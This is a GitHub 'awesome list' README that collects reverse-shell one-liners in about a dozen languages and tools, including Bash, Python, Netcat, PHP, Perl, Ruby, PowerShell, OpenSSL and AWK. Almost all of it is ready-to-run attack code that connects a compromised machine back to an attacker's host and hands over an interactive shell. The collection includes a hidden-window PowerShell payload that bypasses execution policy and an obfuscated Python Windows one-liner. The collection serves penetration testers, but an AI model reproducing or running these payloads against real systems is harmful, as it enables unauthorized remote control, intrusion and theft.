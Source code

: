 # Awesome Reverse shells [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)


<div align="center">
	<img width="500" height="350" src="media/logo.svg" alt="Awesome">
	<br>
	<br>
	<br>
</div>


A collection of awesome reverse shells in all many different languages!

* [Awesome Reverse shells](#awesome-security)
  * [Bash](#Bash)
  	- [TCP](#Bash-TCP)
  	- [UDP](#Bash-UDP)
  * [Python](#Python)
  	- [IPv4](#Python-IPv4)
  	- [IPv6](#Python-IPv6)
  	- [Windows](#Python-Windows)
  * [Netcat](#Netcat)
  * [Telnet](#Telnet)
  * [PHP](#PHP)
  * [Perl](#Perl)
  	- [Linux](#Perl-Linux)
  	- [Windows](#Perl-Windows)
  * [Ruby](#Ruby)
  	- [Linux](#Ruby-Linux)
  	- [Windows](#Ruby-Windows)
  * [Java](#Java)
  * [XTERM](#XTERM)
  * [GoLang](#GoLang)
  * [powershell](#powershell)
  * [SSL](#SSL)
  * [AWK](#AWK)

## Bash
#### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
```bash
0<&196;exec 196<>/dev/tcp/10.0.0.1/1234; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/10.0.0.1/1234
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

#### Bash UDP
**Listener**
```bash
nc -u -lvp 4242
```

**Target**
```bash
sh -i >& /dev/udp/10.0.0.1/1234 0>&1
```

## Python

#### Python IPv4
``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```python
export RHOST="10.10.10.10";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
#### Python IPv6

```python
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
```

#### Python Windows
``` bash
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.10.10.10', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

## Netcat
``` bash
nc -e /bin/sh 10.0.0.1 1234
```

```bash
/bin/sh | nc 10.0.0.1 1234
```

When the wrong version is installed
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Telnet 

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

```bash
telnet attackerip 1234 | /bin/bash | telnet attackerip 1235 
```
_remember to listen on port 1235 on th attacking machine also._
## PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Perl

#### Perl Linux
```bash 
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Perl Windows
```bash 
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby
#### Ruby Linux

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

```ruby 
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### Ruby Windows
```ruby
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


## Java

``` Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## XTERM

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
``` bash
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```bash
xhost +targetip
```

## GoLang
```bash 
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:1234");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```


## powershell 
``` bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## SSL 

**Listener**
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

ncat --ssl -vv -l -p 4242
``` 

**Target**
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:4242 > /tmp/s; rm /tmp/s
```

## AWK
``` bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1>/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
